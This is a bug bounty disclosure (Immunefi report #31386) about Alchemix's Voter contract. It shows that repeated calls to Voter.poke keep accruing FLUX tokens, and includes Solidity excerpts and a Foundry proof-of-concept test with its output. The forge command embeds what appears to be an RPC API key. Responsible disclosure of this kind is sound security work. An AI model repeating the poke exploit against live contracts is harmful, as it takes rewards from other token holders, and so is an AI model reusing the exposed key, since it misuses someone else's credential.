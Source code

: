
# Malicious user can steal FLUX token by abusing `Voter.poke`

Submitted on Fri May 17 2024 16:21:25 GMT-0400 (Atlantic Standard Time) by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31386

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
Malicious user can steal FLUX token by abusing `Voter.poke`

## Vulnerability Details
In [Voter.poke](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212) funciton, there is not limitation how many time it can be called within one epoch, and at the end of the function, `Voter._vote` is called.
```solidity
195     function poke(uint256 _tokenId) public {
	...
211         _vote(_tokenId, _poolVote, _weights, _boost);
212     }
```

In [Voter._vote](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455), `IFluxToken(FLUX).accrueFlux(_tokenId);` is calle to accrue Flux token in [Voter.sol#L423](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L423)

And in [FluxToken.accrueFlux](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188-L192), the function will check the amount of claimable flux and than update `FluxToken.unclaimedFlux`
```solidity
187     /// @inheritdoc IFluxToken
188     function accrueFlux(uint256 _tokenId) external {
189         require(msg.sender == voter, "not voter");
190         uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
191         unclaimedFlux[_tokenId] += amount;
192     }
```

[VotingEscrow.claimableFlux](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L377-L385) is defined as:
```solidity
 377     function claimableFlux(uint256 _tokenId) public view returns (uint256) {
 378         // If the lock is expired, no flux is claimable at the current epoch
 379         if (block.timestamp > locked[_tokenId].end) {
 380             return 0;
 381         }
 382 
 383         // Amount of flux claimable is <fluxPerVeALCX> percent of the balance 
 384         return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
 385     }
```

__As we can see above, `claimableFlux` only calcuate the tokenId's voting power, it doesn't record if the Flux has been claimed already.__
So if a malicious user keep calling `Voter.poke`, his tokenId's unclaimedFlux will keeping increasing.


## Impact Details
Malicious user can steal FLUX token by abusing `Voter.poke`

## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept
Put the following code in `src/test/Voting.t.sol` and run
```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/0TbY2mhyGA4gLPShfh-PwBlQ3PDNUdL1 --fork-block-number 17133822 --mc VotingTest --mt testAlicePoke -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testAlicePoke() (gas: 2564522)
Logs:
  getUnclaimedFlux:  1879449739964023604
  getUnclaimedFlux:  2799996511899518614
  getUnclaimedFlux:  3720543283835013624

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.59ms (1.90ms CPU time)

Ran 1 test suite in 1.29s (5.59ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As we can see from the above output, every time Alice calls `Voter.poke`, her unclaimed Flux will increase.

```solidity
    function testAlicePoke() public {
        address Alice = address(0x11001100);
        uint256 tokenId = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.prank(Alice);
        voter.vote(tokenId, pools, weights, 0);

        address[] memory poolVote = voter.getPoolVote(tokenId);
        assertEq(poolVote[0], alETHPool);

        // Next epoch
        hevm.warp(block.timestamp + nextEpoch);

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));
    } 
```